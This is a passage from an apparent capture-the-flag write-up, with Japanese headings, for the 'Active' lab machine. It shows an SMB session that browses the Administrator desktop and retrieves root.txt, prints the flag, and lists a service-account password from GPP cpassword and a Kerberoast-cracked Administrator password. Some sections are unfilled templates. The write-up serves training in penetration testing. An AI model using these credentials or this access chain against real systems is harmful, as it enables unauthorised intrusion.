smb: \> cd Administrator\
lsmb: \Administrator\> ls
  .                                   D        0  Mon Jul 16 19:14:21 2018
  ..                                  D        0  Mon Jul 16 19:14:21 2018
  AppData                           DHn        0  Thu Dec 26 22:56:59 2024
  Application Data                DHSrn        0  Mon Jul 16 19:14:15 2018
  Contacts                           DR        0  Mon Jul 30 22:50:10 2018
  Cookies                         DHSrn        0  Mon Jul 16 19:14:15 2018
  Desktop                            DR        0  Fri Jan 22 01:49:47 2021
  Documents                          DR        0  Mon Jul 30 22:50:10 2018
  Downloads                          DR        0  Fri Jan 22 01:52:32 2021
  Favorites                          DR        0  Mon Jul 30 22:50:10 2018
  Links                              DR        0  Mon Jul 30 22:50:10 2018
  Local Settings                  DHSrn        0  Mon Jul 16 19:14:15 2018
  Music                              DR        0  Mon Jul 30 22:50:10 2018
  My Documents                    DHSrn        0  Mon Jul 16 19:14:15 2018
  NetHood                         DHSrn        0  Mon Jul 16 19:14:15 2018
  NTUSER.DAT                       AHSn   524288  Thu Dec 26 22:57:37 2024
  ntuser.dat.LOG1                   AHS   262144  Thu Dec 26 23:45:02 2024
  ntuser.dat.LOG2                   AHS        0  Mon Jul 16 19:14:09 2018
  NTUSER.DAT{016888bd-6c6f-11de-8d1d-001e0bcde3ec}.TM.blf    AHS    65536  Mon Jul 16 19:14:15 2018
  NTUSER.DAT{016888bd-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000001.regtrans-ms    AHS   524288  Mon Jul 16 19:14:15 2018
  NTUSER.DAT{016888bd-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000002.regtrans-ms    AHS   524288  Mon Jul 16 19:14:15 2018
  ntuser.ini                         HS       20  Mon Jul 16 19:14:15 2018
  Pictures                           DR        0  Mon Jul 30 22:50:10 2018
  PrintHood                       DHSrn        0  Mon Jul 16 19:14:15 2018
  Recent                          DHSrn        0  Mon Jul 16 19:14:15 2018
  Saved Games                        DR        0  Mon Jul 30 22:50:10 2018
  Searches                           DR        0  Mon Jul 30 22:50:10 2018
  SendTo                          DHSrn        0  Mon Jul 16 19:14:15 2018
  Start Menu                      DHSrn        0  Mon Jul 16 19:14:15 2018
  Templates                       DHSrn        0  Mon Jul 16 19:14:15 2018
  Videos                             DR        0  Mon Jul 30 22:50:10 2018

                5217023 blocks of size 4096. 278900 blocks available
smb: \Administrator\> cd Desktop\
ls
smb: \Administrator\Desktop\> ls
  .                                  DR        0  Fri Jan 22 01:49:47 2021
  ..                                 DR        0  Fri Jan 22 01:49:47 2021
  desktop.ini                       AHS      282  Mon Jul 30 22:50:10 2018
  root.txt                           AR       34  Thu Dec 26 22:57:34 2024

                5217023 blocks of size 4096. 278900 blocks available
smb: \Administrator\Desktop\> get root.txt
getting file \Administrator\Desktop\root.txt of size 34 as root.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \Administrator\Desktop\> ^C

❌[2:16][CPU:1][MEM:20][IP:10.10.14.92][...z0/tools/windows/impacket]
🐉 > cat root.txt
d4e5b9839e8317c7bd3182e3d1a04846
```

### Not implemented (or log not saved)

No additional logs saved.

💡 なぜ有効か  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## 権限昇格

### 3.Privilege Escalation

---

Extracting commands related to privilege escalation steps. Please add confirmation logs such as `whoami /all` and `sudo -l` as necessary.

💡 なぜ有効か  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## 認証情報

```text
Domain: active.htb
Service account: active.htb\SVC_TGS
Password from GPP cpassword: GPPstillStandingStrong2k18
Kerberoast crack result: Administrator / Ticketmaster1968
```

## まとめ・学んだこと

### 4.Overview

---




## 参考文献

- nmap
- rustscan
- sudo
- cat
- find
- impacket
- GTFOBins
